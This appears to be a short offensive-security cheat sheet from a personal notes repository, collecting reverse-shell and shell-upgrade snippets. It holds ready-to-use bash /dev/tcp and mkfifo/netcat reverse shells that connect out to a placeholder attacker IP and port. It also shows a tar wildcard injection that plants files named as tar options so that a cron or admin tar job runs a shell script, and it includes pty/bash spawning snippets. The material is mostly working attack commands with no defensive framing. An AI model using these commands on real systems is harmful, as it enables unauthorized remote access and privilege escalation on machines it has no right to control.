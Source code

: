 # Resources
- http://www.revshells.com
- https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux

---
# Shellnanigans

- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`

Tar being called with wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
